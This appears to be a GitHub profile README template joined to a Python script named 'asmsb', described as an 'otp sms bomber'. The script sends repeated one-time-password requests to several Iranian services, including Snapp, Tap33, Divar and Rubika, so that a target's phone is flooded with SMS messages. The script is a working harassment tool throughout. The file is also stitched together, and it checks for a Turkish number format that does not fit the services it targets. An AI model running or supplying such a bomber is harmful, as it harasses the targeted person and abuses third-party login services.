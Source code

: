 - 👋 Hi, I’m @CoderSoulful
- 👀 I’m interested in ...
- 🌱 I’m currently learning ...
- 💞️ I’m looking to collaborate on ...
- 📫 How to reach me ...
- 😄 Pronouns: ...
- ⚡ Fun fact: ...

<!---
CoderSoulful/CoderSoulful is a ✨ special ✨ repository because its `README.md` (this file) appears on your GitHub profile.
You can click the Preview link to take a look at your changes.
--->
'''
    Freedom to Dream
        NiREvil

'''

from argparse import ArgumentParser
from urllib3 import PoolManager
from json import dumps
from time import sleep
from re import search

def send(cellphone):
    http = PoolManager()

    # 1. snap otp [OK]
    http.request("post", "https://app.snapp.taxi/api/api-passenger-oauth/v2/otp",
        headers={'Content-Type': 'application/json'},
        body=dumps({"cellphone": f"+{cellphone}"}).encode())
    
    # 2. tap33 otp [OK]
    http.request("post", "https://tap33.me/api/v2/user",
        headers={'Content-Type': 'application/json'},
        body=dumps({"credential": {"phoneNumber": f"{cellphone}", "role": "PASSENGER"}}).encode())

    # 3. echarge [OK]
    http.request("post", "https://www.echarge.ir/m/login?length=19",
        headers={'Content-Type': 'application/json'},
        body=dumps({"phoneNumber": f'{cellphone}'}).encode())

    # 4. divar [OK]
    http.request("post", "https://api.divar.ir/v5/auth/authenticate",
        headers={'Content-Type': 'application/json'},
        body=dumps({"phone": f'{cellphone}'}).encode())

    # 5. shad  [OK]     
    http.request("post", "https://shadmessenger12.iranlms.ir/",
     headers={'Content-Type': 'application/json'},
      body=dumps({"phone": f'{cellphone}'}).encode())

    # 6. rubika [OK]  
    http.request("post", "https://messengerg2c4.iranlms.ir/",
     headers={'Content-Type': 'application/json'},
      body=dumps({"phone": f'+{cellphone}'}).encode())

    # 8. emtiaz [OK]
    http.request("post", "https://web.emtiyaz.app/json/login",
     headers={'Content-Type': 'application/json'},
      body=dumps({"phone": f'+{cellphone}'}).encode())

def spam(args):
    if (search(r'5\d{9}$', args.cellphone)): # Türkiye numarası kontrolü
        for time in range(args.times):
            print(f"\rSending sms {time+1}/{args.times}", end='')
            try:
                send(args.cellphone)
            except KeyboardInterrupt:
                exit()
            sleep(2)
        print('')
    else:
        print("error: invalid cellphone format, format: 5\d{9} e.g. 53157xxxxx")

def main():
    parser = ArgumentParser(prog="asmsb",
        description="otp sms bomber",
        epilog="By <hossin>")
    parser.add_argument("cellphone", help="target cellphone: e.g. 53157xxxxx")
    parser.add_argument("--times", help="count of SMSs (per service!)", type=int, default=10)
    spam(parser.parse_args())

if (__name__ == "__main__"):
    main()

